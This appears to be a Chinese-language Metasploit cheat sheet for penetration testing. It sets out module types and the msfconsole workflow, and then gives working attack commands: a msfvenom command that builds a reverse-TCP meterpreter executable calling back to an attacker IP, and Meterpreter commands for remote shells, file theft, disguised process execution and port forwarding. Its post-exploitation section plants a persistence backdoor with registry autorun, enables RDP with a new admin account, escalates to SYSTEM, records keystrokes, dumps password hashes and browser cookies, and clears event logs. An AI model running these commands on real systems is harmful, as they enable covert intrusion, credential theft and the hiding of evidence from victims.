





• 使用Metasploit的具体思路： 
1. 搜索攻击模块；使用命令：Search + 漏洞信息或编号
2. 使用某个模块；使用命令：use 
3. 查看配置选项；使用命令：show options
4. 设置选项值；使用命令：set 
5. 开始攻击；使用命令：run/exploit

msfconsole
图形界面启动: 输入：armitage，若提示不存在 请输入：apt-get install armitage 安装后需要使用：msfdb init 然后输入armitage

重要模块介绍: 
exploits 攻击模块 实施精准打击 
auxiliary 漏洞辅助模块，多用于扫描,嗅探,指纹识别等功能 
payloads 漏洞载荷模块，通常作用是为渗透测试者打开在目标系统上的控 制会话连接 
encoders 编码器模块，对payloads进行编码 
nops 空指令模块，最典型的空指令就是空操作 
evasion 创建反杀毒软件的木马

1.show exploits 显示可用的渗透攻击模块。
2.search 用来搜寻一些渗透攻击模块，可以进行模糊匹配。 
3.use 使用某个渗透攻击模块，可以通过use命令来使用show 或 search出来的渗 透模块。 
4.show payloads 显示当前模块可用的攻击载荷 
5.show options 显示参数当选择渗透模块后，使用show options 会显示该模块 所需设置的参数。 
6.set 命令是用来设置某些选项的，比如使用set 命令设置，攻击模块的options参 数；设置攻击载荷payloads时，也是用set命令。 
7.exploit/run命令，设置完所有参数时，使用exploit命令，开始进行攻击。

msfdb init/reinit/start/stop/delete/run

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.3.168(kali- -ip) LPORT=443(kali接口shell的端口) -f exe -o met.exe

Meterpreter常用命令
background命令 。返回，把meterpreter后台挂起
sessions 命令可以查看已经成功获取的会话
sessions -i 连接到指定序号的meterpreter会话
shell命令 。获取目标主机的远程命令行shell
cat命令。查看目标主机上的文档内容
getwd命令。获取系统工作的当前目录
upload命令 。上传文件到目标主机
download命令。把目标主机上的文件下载到我们的攻击主机上
edit命令。调用vi编辑器，对目标主机上的文件修改
search命令。在目标主机文件系统上查找搜索文件
ipconfig命令。查看目标主机上的网络参数
portfwd命令。端口转发
portfwd add -l 1122 -p 3389 -r 192.168.111.149 将192.168.111.149的远程登录3389端口映射到本地
route命令。显示目标主机上的主机路由表
getuid 查看meterpreter注入到目标主机的进程所属用户
sysinfo 。查看目标主机系统信息
ps命令。查看目标主机上运行的进程信息，结合migrate使用
migrate。将meterpreter会话移植到另一个进程
execute命令。在目标主机上运行某个程序 -H 后台 -f 程序  -i shell
-d 在目标主机执行时显示的进程名称（用以伪装） -m 直接从内存中执行 -f 使用文件(程序) -a 使用路径 参数: <地址> -o 保存所有的输出到一个文件 参数:<文件名>
getpid 获取meterpreter会话在目标主机上注入进程的进程号
shutdown命令 关闭目标主机

**后渗透模块**

调用post/windows/gather/checkvm后渗透模块，确定目标主机是否是一台虚拟机
persistence后渗透模块向目标主机植入后门程序 命令：run persistence -X -i 5 -p 攻击者监听端口 -r 攻击者监听的服务器地址 -X 在目标主机上开机自启动 -i 不断尝试反向连接的时间间隔

执行过程： 创建攻击载荷->攻击载荷植入到目标主机c:\windows\temp目录下，是一个.vbs的脚本->写 目标主机注册表键值实现开机自动运行。 下图，在攻击主机上监听4444端口，等待反弹会话成功

如果没有反弹成功,重新执行一遍:run persistence -X -i 5 -p 攻击者监听端口 -r 攻击者监 听的服务器地址 就能得到会话:

调用getgui后渗透攻击模块 作用：开启目标主机远程桌面，并可添加管理员组账号 命令：run getgui -e 开启目标主机远程桌面
开启目标主机的远程桌面服务后，可以添加账号以便利用 命令： run getgui -u username -p password

执行成功，可以使用kali的rdesktop命令使用远程桌面连接目标主机 rdesktop -u kali -p kali 192.168.111.146:3389

提权命令getsystem 使用getsystem提升当前进城执行账户为system用户，拿到系统最高权限

键盘记录器功能 命令：run post/windows/capture/keylog_recorder

系统账号密码获取 命令：run post/windows/gather/hashdump 在获得system权限的情况下，使用hashdump命令可以到处目标主机的SAM文件，获取目标 主机的账号密码hash信息，剩下的可以用爆破软件算出明文密码

调用post/windows/gather/enum_applications模块获取目标主机上的软件安装信息 命令：run post/windows/gather/enum_applications

调用post/windows/gather/dumplinks获取目标主机上最近访问过的文档、链接信息 命令：run post/windows/gather/dumplinks

调用post/windows/gather/enum_ie后渗透模块，读取目标主机IE浏览器cookies等缓 存信息，嗅探目标主机登录过的各类账号密码 命令：run post/windows/gather/enum_ie

clearev命令
rdesktop -u username -p password 受害机ip